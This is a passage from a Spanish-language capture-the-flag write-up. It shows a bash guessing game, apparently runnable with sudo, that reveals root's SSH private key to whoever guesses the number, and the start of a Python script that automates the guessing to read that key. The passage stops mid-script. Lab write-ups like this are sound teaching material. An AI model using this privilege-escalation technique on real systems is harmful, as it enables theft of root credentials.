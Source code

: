 ```bash
/bin/echo "You have $ATTEMPTS attempts to guess it."

ATTEMPTS_MADE=0

SECRET_FILE="/root/.ssh/id_rsa"

while [ $ATTEMPTS_MADE -lt $ATTEMPTS ]; do
  /bin/echo "Try to guess:"
  read GUESS

  # Validate that the input is a valid number
  if ! [[ "$GUESS" =~ ^[0-9]+$ ]]; then
    /bin/echo "Please, enter a valid number."
    continue
  fi

  ATTEMPTS_MADE=$((ATTEMPTS_MADE + 1))

  if [ $GUESS -lt $NUMBER ]; then
    /bin/echo "Your guess is too low."
  elif [ $GUESS -gt $NUMBER ]; then
    /bin/echo "Your guess is too high."
  else
    break
  fi
done

if [ $GUESS -eq $NUMBER ]; then
  /bin/echo "Good job, $NAME! You guessed my number in $ATTEMPTS_MADE attempts!"
  /bin/echo "Here's your reward:"
  /bin/cat "$SECRET_FILE"
else
  /bin/echo "No, the number I was thinking of was $NUMBER."
fi
```

Veremos que es como un juego, si adivinamos el numero correcto que es aleatorio nos porporcionara la clave `privada` de `root`, por lo que vamos a montarnos un `script` para poder adivinarlo de forma mas rapida.

> number.py

```bash
#!/usr/bin/env python3
import subprocess
import re

low = 1
high = 2_000_000

while True:
    proc = subprocess.Popen(
        ["sudo", "/opt/game.sh"],
        stdin=subprocess.PIPE,
        stdout=subprocess.PIPE,
        stderr=subprocess.STDOUT,
        text=True
    )

    reading_reward = False

    while True:
        line = proc.stdout.readline()
        if not line:
```